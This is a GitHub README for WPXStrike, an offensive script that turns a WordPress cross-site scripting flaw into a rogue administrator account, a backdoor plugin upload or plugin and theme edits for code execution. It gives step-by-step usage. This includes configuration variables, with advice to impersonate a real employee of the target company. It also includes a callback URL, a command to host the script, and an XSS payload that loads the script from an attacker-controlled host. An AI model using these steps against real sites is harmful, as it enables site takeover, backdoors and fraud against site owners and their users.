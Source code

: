 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/WPXStrike/assets/96009982/36f99c00-31f9-45fa-ab4d-746481a16de4" alt="WPXStrike" width="350">
  <br>
  WPXStrike
  <br>
</h1>



<h4 align="center">WordPress Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilties</a>.</h4>

<p align="center">
  <a href="#about">About</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#examples">Examples</a> •
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/WPXStrike/assets/96009982/c9cd4b27-e93d-4e90-bd69-b10c0fe36e60)

## About
_**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress.

## Key Features

* _**Privilege Escalation**_
  - Creates an user in WordPress.
* _**(RCE) Custom Plugin (backdoor) Upload**_
  - Upload your custom plugin (backdoor) to WordPress.
* _**(RCE) Built-In Plugin Edit**_
  - Edit a Built-In Plugins in WordPress.
* _**(RCE) Built-In Theme Edit**_
  - Edit a Built-In Themes in WordPress.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party WordPress Plugins/Themes.
  
## How To Use
https://github.com/nowak0x01/WPXStrike/assets/96009982/05ae1c34-5c0c-4ee5-b80e-0c8c270dbba0

1\) Clone the Repository
```bash
git clone https://github.com/nowak0x01/WPXStrike
```

2\) Edit the script by selecting the desired function, modifying its variable values and select the module. (Example: _**WPCreateAccount()**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "https://wordpress.example.com/"; // Ex: https://172.16.0.13:8000/wordpress/
var Callback = "https://fqgx7638bcvddnsrufh3nxbozd.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

WPCreateAccount(); // (Privilege Escalation) - Creates an user in WordPress.
// WPUploadCustomPlugin(); // (RCE) - Upload your custom plugin (backdoor) to WordPress.
// WPEditPlugins(); // (RCE) - Edit a Built-In Plugins in WordPress.
// WPEditThemes(); // (RCE) - Edit a Built-In Themes in WordPress.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party WordPress Plugins/Themes.

function WPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // Ex: operator (It is recommended to use a valid employee name from the target company).
    var Password = `j^QEkyvd7*g3xqsE`;          // (weak password are allowed).
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered).
    var Role = "administrator";                 // Ex: administrator, editor, author, contributor, subscriber.
    var FirstName = ""; // (optional)
    var LastName = "";  // (optional)
    /* ************************************************************************************************************************************************ */

    // ************************************ ~% WPCreateAccount Modules %~ ************************************ //
    // [#] Choose one of the available modules [#] //
    WPXCreateAccount(); // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    /* ************************************************************************************************************************************************ */

    // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    function WPXCreateAccount() {
      ...
    }

```

3\) Start a web server
```bash
php -S 0.0.0.0:80 -t .
```

4\) Go to the WordPress XSS vector and include _**WPXStrike.js**_
```
https://wordpress.example.com/?search=<script%20src="//YOURIP/WPXStrike.js"></script>
```

## Examples
**_WPCreateAccount()_ - Creates an user in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/60940909-e13c-4161-9638-864cab36fdcd

**_WPUploadCustomPlugin()_ - Upload your custom plugin (backdoor) to WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/08deea5f-acd2-412c-b248-28a71b0ff96d

**_WPEditThemes()_ - Edit a Built-In Themes in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/ae52c7cf-26f2-44f7-aed2-e4493874bdf1

**_WPEditPlugins()_ - Edit a Built-In Plugins in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/b744d37c-bf17-4fc4-8cb1-6ede389da6c7

**_CustomExploits()_ - Custom Exploits for Third-Party WordPress Plugins/Themes**.<br>
// pending

# Contributing
If you're interested in contributing, enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better.
<pre>
              ;,_            ,
                 _uP~"b          d"u,
                dP'   "b       ,d"  "o
               d"    , `b     d"'    "b
              l] [    " `l,  d"       lb
              Ol ?     "  "b`"=uoqo,_  "l
            ,dBb "b        "b,    `"~~TObup,_
          ,d" (db.`"         ""     "tbc,_ `~"Yuu,_
        .d" l`T'  '=                      ~     `""Yu,
      ,dO` gP,                           `u,   b,_  "b7         
     d?' ,d" l,                           `"b,_ `~b  "1
   ,8i' dl   `l                 ,ggQOV",dbgq,._"  `l  lb      WPXStrike (https://github.com/nowak0x01/WPXStrike)
  .df' (O,    "             ,ggQY"~  , @@@@@d"bd~  `b "1
 .df'   `"           -=@QgpOY""     (b  @@@@P db    `Lp"b,
.d(                  _               "ko "=d_,Q`  ,_  "  "b,
Ql         .         `"qo,._          "tQo,_`""bo ;tb,    `"b,
qQ         |L           ~"QQQgggc,_.,dObc,opooO  `"~~";.   __,7,
qp         t\io,_           `~"TOOggQV""""        _,dg,_ =PIQHib.
`qp        `Q["tQQQo,_                          ,pl{QOP"'   7AFR`
  `         `tb  '""tQQQg,_             p" "b   `       .;-.`Vl'
             "Yb      `"tQOOo,__    _,edb    ` .__   /`/'|  |b;=;.__
                           `"tQQQOOOOP""`"\QV;qQObob"`-._`\_~~-._
                                """"    ._        /   | |oP"\_   ~\ ~\_~\
                                        `~"\ic,qggddOOP"|  |  ~\   `\~-._
                                          ,qP`"""|"   | `\ `;   `\   `\
                               _        _,p"     |    |   `\`;    |    |
    @Author: Hudson Nowak      "boo,._dP"       `\_  `\    `\|   `\   ;
                                 `"7tY~'            `\  `\    `|_   |
                                                      `~\  |
</pre>
